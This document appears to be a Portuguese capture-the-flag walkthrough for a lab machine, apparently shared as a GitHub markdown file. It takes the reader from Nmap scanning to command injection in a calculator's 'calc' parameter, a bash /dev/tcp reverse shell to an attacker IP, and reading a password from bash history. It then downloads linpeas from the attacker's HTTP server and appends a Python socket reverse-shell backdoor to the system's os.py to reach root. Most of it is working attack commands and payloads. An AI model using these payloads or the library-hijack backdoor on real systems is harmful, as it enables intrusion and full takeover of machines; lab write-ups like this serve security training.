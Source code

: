 # Command Injection + Python Library Hijacking

---

## Etapa 1: Enumeração Inicial com Nmap

### Objetivo:

Descobrir serviços ativos e portas abertas no alvo.

### Comando:

```bash
nmap -sV -p- -T4 192.168.0.13
```

**Resultado esperado:**

- Porta 22 (SSH)
    
- Porta 80 (HTTP)
    
- Porta 111 (RPCBind)
    

---

## Etapa 2: Acesso ao site vulnerável

### Objetivo:

Explorar a aplicação web com uma calculadora vulnerável em `http://192.168.0.13`

1. Acesse o site via navegador.
    
2. Clique em "Calcular" para acionar o backend.
    
3. Intercepte a requisição com o **Burp Suite**.
    
4. Envie a requisição para o **Repeater**.
    
5. Substitua o valor do parâmetro `calc` por:
    
    ```
    `id`
    ```
    
6. Clique em **Send** e verifique a aba **Response**.
    

**Se retornar `uid=33(www-data)`**, você tem **Command Injection**!

---

## Etapa 3: Execução de Shell Reversa

### Na sua máquina atacante:

```bash
nc -lvnp 443
```

### Payload para usar no Burp (campo `calc`):

```bash
/bin/bash -c 'sh -i >& /dev/tcp/SEU_IP/443 0>&1'
```

### Encode no Burp (Ctrl+U):

```
/bin/bash+-c+'sh+-i+>%26+/dev/tcp/10.10.14.55/443+0>%261'
```

### Envie a requisição no Repeater

Se tudo funcionar, você verá a conexão chegando no netcat.

---

## Etapa 4: Melhorar Shell com TTY

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Etapa 5: Encontrar flag de user

```bash
cd /home/sysadmin
cat .bash_history
su sysadmin
# Digite a senha encontrada no bash_history
cat user.txt
```

**Flag de user encontrada!**

---

## Etapa 6: Rodando o linpeas.sh para descobrir escalada de privilégio

### Na sua máquina atacante:

1. Baixe o script:
    

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

2. Rode um servidor HTTP:
    

```bash
python3 -m http.server 80
```

> Certifique-se de estar no diretório onde está o `linpeas.sh` ao rodar o comando acima.

### Na máquina invadida (como sysadmin):

```bash
cd /tmp
wget http://10.10.14.55/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.log
```

**Procure por arquivos com permissão de escrita, como `os.py` em `/usr/lib/python3.X/os.py`**

---

## Etapa 7: Python Library Hijacking com os.py

### 1. Confirme permissão de escrita:

```bash
ls -l /usr/lib/python3.X/os.py
```

### 2. Faça backup do arquivo original:

```bash
cp /usr/lib/python3.X/os.py /tmp/os.py.bkp
```

### 3. Edite e injete o código de reverse shell:

```bash
nano /usr/lib/python3.X/os.py
```

**No final do arquivo, cole:**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.55",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
```

### 4. Em sua máquina atacante:

```bash
nc -lvnp 4444
```

### 5. Execute o script Python com sudo:

```bash
sudo /usr/bin/python3 /opt/pycalc/calc.py
```

---

## Etapa 8: Shell como root

No Netcat, você agora terá root:

```bash
whoami
# root
cat /root/root.txt
```

---

## Concluído!

Você realizou:

- Enumeração com Nmap
    
- Exploração com Command Injection
    
- Reverse Shell
    
- Escalada via bash_history
    
- Enumeração com linpeas
    
- Hijack de biblioteca Python
    
- Root Shell

